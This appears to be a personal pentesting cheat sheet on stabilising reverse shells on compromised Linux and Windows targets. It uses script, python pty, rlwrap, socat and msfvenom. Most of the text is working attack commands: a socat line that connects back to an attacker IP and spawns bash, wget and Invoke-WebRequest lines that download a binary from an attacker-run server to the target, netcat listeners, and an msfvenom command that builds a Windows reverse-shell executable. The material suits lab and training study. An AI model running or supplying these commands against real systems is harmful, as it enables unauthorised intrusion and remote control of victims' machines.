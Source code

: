 # Technique 0: script
kind of like a poor version of python/rlwrap
stty does NOT behave nicely so it can cause display issues

> once your shell has landed; ONLY WORKS IF `script` is present on the target unix system
```
script /dev/null -c bash

explanation
    script      ; binary we run
    /dev/null   ; the log file location
    -c bash     ; the command we will be logging
```

my preference is to have a "fragile shell" but with rlwrap
the display issues script brings are NOT worth it
display issues cause too much lost information

my 'lost information' experience may be box/system specific to a single instance

> alternate 'script' upgrade
```sh
# catch the reverse shell
script -q bash
ctrl + Z 
stty raw -echo; fg 
export TERM=xterm
bash
# 2nd bash may not be needed
```


# Technique 1: python
    python -c 'import pty;pty.spawn("/bin/bash")' 
    export TERM=xterm -- this will give us access to term commands such as clear. 
    Ctrl + Z. (background the shell on attacker machine)
    stty raw -echo; fg 
    [LOCAL] stty -a  ; take note of row col
    [REV_SHELL] stty rows LOCAL_ROW columns LOCAL_COLS
    
Last 2 steps does two things: 
	first, it turns off our own terminal echo 
	(which gives us access to tab autocompletes, the arrow keys, and Ctrl + C). 
	It then foregrounds the shell, thus completing the process. 


# Technique 2: rlwrap
Useful for Windows Shell stabilization (Notoriously difficult)
Gives access to history, tab complete, arrow keys 
NO ACCESS TO CTRL+C BY DEFAULT
    rlwrap nc -lvnp <port>
    Ctrl+Z; stty raw -echo; fg  (gives access to ctrl+c)


# Technique 3: socat
only useful VS linux.
Syntax for Sending/Receiving is Unique to socat
serve a socat static compiled binary (no dependencies)
    Attacker: sudo python3 -m http.server 80    
    Linux Target: wget <LOCAL-IP>/socat -O /tmp/socat
    Windows Target: Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
Note the windows command is an example of serving; 
socat will not work for our purposes on windows

Listener: socat TCP-L:<port> FILE:`tty`,raw,echo=0
Speaker: socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane

-d -d  added to command will increase verbosity (good for learning)

Real world uses socat whenever possible; its possible to encrypt shell traffic
Replace above TCP with OPENSSL.
A bit involved, but worth learning NEXT.


# Change Terminal TTY Size
necessary for using progs which overwrite the screen (nano, vi, etc)
Terminal does this automatically with a regular shell;
must be manually done with a Reverse/Bind shell

-    Attacker: stty -a       (Take note of rows/cols information)
-    Target: stty rows    (info from attackbox)
-    Target: stty cols    (info from attackbox)

# MSFVENOM - autocrafting
e.g.
msfvenom --list payloads | grep "linux/x86/meterpreter"

msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
notice
	-f format
	-o output_file
	-p payload os/arch/payload

shell/reverse_tcp is staged 	(sometimes it says meterpreter instead of shell) 
shell_reverse_tcp is unstaged   (sometimes it says meterpreter instead of shell)
notice the /_ between shell reverse
	/ is staged
	_ is not staged

